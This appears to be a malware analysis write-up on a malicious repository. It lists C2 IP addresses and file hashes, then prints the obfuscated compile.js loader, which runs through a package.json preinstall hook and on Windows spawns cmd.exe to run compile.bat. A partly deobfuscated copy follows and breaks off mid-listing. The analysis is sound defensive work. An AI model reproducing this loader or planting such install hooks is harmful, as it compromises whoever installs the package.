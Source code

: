 | Name | Value |
|:---|:----|
| C2 | 185.106.123.228:443 |
| C2 | 193.42.36.59:443 |
| C2 | 193.56.146.53:443 |
| C2 | 185.117.90.36:443 |

**MD5 hashes**

| Name | Value |
|:---|:----|
| MD5 (compile.js) | accbf560283950ef17bb22164f7003ae |
| MD5 (compile.bat) | 59f3cfd4525da8b7df2815f0ec1a13f1 |
| MD5 (compile.dll) | f778af11f5e5b2a1ee4ed8e54461e85a |

## Technical Analysis

### Deobfuscating: `compile.js`
The following details the analysis of the `compile.js` file that was checked into the repository.  This is the start of the attack as it gets executed in node via the preinstall in package.json

**Obfuscated javascript**<br/>
The following obfuscated javascript is the contents of the file as it was checked in.
```javascript
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

**Deobfuscation**<br/>
I ran the above code through [https://deobfuscate.io](https://deobfuscate.io) to help make more sense of it.  The code is still in an obfuscated state and needed to be understood better.
```javascript
const _0x29286e = _0x3b9e;

(function (_0x595213, _0x1c7f12) {
  const _0x524030 = _0x3b9e, _0x10bbc4 = _0x595213();
  while (!![]) {
    try {
      const _0x5ab451 = parseInt(_0x524030(239)) / 1 * (-parseInt(_0x524030(250)) / 2) + parseInt(_0x524030(247)) / 3 + -parseInt(_0x524030(246)) / 4 * (parseInt(_0x524030(245)) / 5) + -parseInt(_0x524030(242)) / 6 * (-parseInt(_0x524030(237)) / 7) + -parseInt(_0x524030(248)) / 8 * (parseInt(_0x524030(233)) / 9) + parseInt(_0x524030(235)) / 10 + parseInt(_0x524030(243)) / 11 * (parseInt(_0x524030(244)) / 12);
      if (_0x5ab451 === _0x1c7f12) break; else _0x10bbc4.push(_0x10bbc4.shift());
    } catch (_0x3b1efb) {
      _0x10bbc4.push(_0x10bbc4.shift());
```